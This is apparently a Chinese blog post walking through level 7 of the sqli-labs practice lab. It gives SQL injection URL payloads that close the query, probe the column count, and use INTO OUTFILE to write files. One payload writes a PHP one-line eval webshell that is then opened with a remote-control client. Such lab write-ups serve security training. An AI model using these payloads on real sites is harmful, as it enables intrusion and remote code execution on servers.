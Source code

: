 ```yaml
---
layout: post
title: SQL导出文件GET字符型注入(less7)
date: 2021-06-05 19:15 +0900
category: sql-inject
---
```

<!-- TOC -->

- [0x0 SQL注入基本姿势](#0x0-sql注入基本姿势)
- [0x1 LESS-7](#0x1-less-7)

<!-- /TOC -->
## 0x0 SQL注入基本姿势
**outfile()**  
outfile函数可以将查询到的数据存放到一个指定文件种，可以利用这个函数写入一句话木马，或者将查询结果写入文件,可以多行输出
## 0x1 LESS-7
**存在注入点**
![](/images/20210605-1.png)
**成功闭合**  
`?id=1')) --+`  
![](/images/20210605-2.png)
**只存在3列**  
`?id=1')) order by 4 --+`  
![](/images/20210605-3.png)
**利用outfile**  
`?id=1')) union select  1,2,3 into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/1.txt" --+`  
![](/images/20210605-4.png)
![](/images/20210605-5.png)
**写入一句话**  
`?id=1')) union select 1,2,"<?php @eval($_POST['123']);?>" into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/shell.php" --+`
![](/images/20210605-6.png)
![](/images/20210605-7.png)
**菜刀连接**  
![](/images/20210605-8.png)

**查询结果写入文件**  
`?id=1')) union select version(),database(),user() into outfile "C:/phpstudy/WWW/sqli-labs/Less-7/2.txt" --+`  
![](/images/20210605-9.png)
![](/images/20210605-10.png)
**之后操作和之前的关卡一样**  